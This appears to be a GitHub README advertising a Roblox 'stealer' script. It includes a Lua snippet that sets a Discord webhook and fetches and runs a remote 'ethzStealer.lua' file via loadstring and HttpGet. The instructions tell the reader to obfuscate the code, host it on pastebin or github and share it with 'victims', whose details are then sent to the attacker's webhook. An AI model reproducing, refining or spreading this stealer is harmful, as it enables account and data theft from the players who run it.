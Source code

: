 # GENERATOR SOON.

* theres a risk of u getting banned so use an alt account (rarely)

* EXAMPLE:

```lua
User_Name = "Roblox"
Web_Hook = "https://discord.com/api/webhooks/xxxxxx"
loadstring(game:HttpGet("https://raw.githubusercontent.com/ethz07/ethzScripts-ADM/main/ethzStealer.lua"))()
```
* after u finish it obfuscate the code then make it executable in pastebin github etc.
* after share it to your victims if they execute your code ur gonna get a webhook message and read the includes here u will see details.
* also its not dualhooked if u believe its dualhooked my Discord: **_ethz**
